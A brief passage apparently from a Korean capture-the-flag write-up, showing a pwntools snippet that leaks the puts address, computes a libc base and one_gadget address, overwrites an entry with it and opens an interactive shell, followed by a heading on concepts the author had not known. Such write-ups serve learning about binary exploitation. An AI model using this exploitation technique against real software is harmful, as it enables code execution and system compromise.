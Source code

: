 ```python
puts_addr=u32(p.recv(4))
libc_base=puts_addr-0x0005fca0
one_gadget=libc_base+0x3ac5e

log.info(hex(puts_addr))

update_(1,4,p32(one_gadget))

#del_(1)

p.interactive()
```
<br><br><br>

### 4. 몰랐던 개념

---